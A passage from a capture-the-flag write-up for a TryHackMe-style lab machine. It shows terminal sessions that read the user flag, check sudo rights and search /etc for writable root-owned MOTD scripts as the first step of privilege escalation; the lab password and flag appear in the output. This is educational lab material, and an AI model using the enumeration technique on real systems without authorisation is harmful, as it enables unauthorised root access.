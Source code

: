 Now if you navigate to `james`' home directory, you'll find the `user.txt`:

~~~
james@osboxes:/var/www/html$ cd
james@osboxes:~$ ls
Desktop    Downloads         Music              Pictures  Templates  Videos
Documents  examples.desktop  Note-To-James.txt  Public    user.txt
james@osboxes:~$ cat user.txt
7e37c84a66cc40b1c6bf700d08d28c20
~~~

user.txt: `7e37c84a66cc40b1c6bf700d08d28c20`

### Going root

Now we need to gain root access, in order to obtain the root flag. I ran `sudo -l` to check our sudo permissions, but we have none:

~~~
james@osboxes:~$ sudo -l
[sudo] password for james: jamaica
Sorry, user james may not run sudo on osboxes.
~~~

There is a file in james' home directory named `Note-To-James.txt`. Let's read it:
~~~
james@osboxes:~$ cat Note-To-James.txt
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it? 

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :) 

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

root
~~~

The note is from root and it says that we have access to modify "ssh welcome message". Let's find what files the root is talking about. I used `find` command to find writable files in `/etc`, because that's where these types of files are. The `-exec` flag is to see their ownership and the access we have:

~~~
james@osboxes:~$ find /etc -type f -writable -exec ls -la {} + 2>/dev/null
-rwxrwxr-x 1 root james 1220 Mar 10  2021 /etc/update-motd.d/00-header
-rwxrwxr-x 1 root james    0 Mar 10  2021 /etc/update-motd.d/00-header.save
-rwxrwxr-x 1 root james 1157 Jun 14  2016 /etc/update-motd.d/10-help-text
-rwxrwxr-x 1 root james   97 Dec  7  2018 /etc/update-motd.d/90-updates-available
-rwxrwxr-x 1 root james  299 Jul 22  2016 /etc/update-motd.d/91-release-upgrade
-rwxrwxr-x 1 root james  142 Dec  7  2018 /etc/update-motd.d/98-fsck-at-reboot
-rwxrwxr-x 1 root james  144 Dec  7  2018 /etc/update-motd.d/98-reboot-required
-rwxrwxr-x 1 root james  604 Nov  5  2017 /etc/update-motd.d/99-esm
~~~

